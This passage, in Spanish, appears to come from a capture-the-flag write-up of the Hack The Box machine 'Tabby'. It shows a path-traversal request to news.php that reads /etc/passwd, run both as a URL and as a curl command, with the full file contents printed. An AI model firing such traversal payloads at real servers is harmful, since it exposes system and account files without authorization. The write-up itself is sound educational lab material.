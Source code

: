 Digámosle que nos muestre el archivo `/etc/passwd`.

```html
http://megahosting.htb/news.php?file=../../../../../../etc/passwd
```

![pagepasswd](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/tabby/pagepasswd.png)

```bash
─╼ $ curl -s http://megahosting.htb/news.php?file=../../../../../../etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
tomcat:x:997:997::/opt/tomcat:/bin/false
mysql:x:112:120:MySQL Server,,,:/nonexistent:/bin/false
ash:x:1000:1000:clive:/home/ash:/bin/bash
```
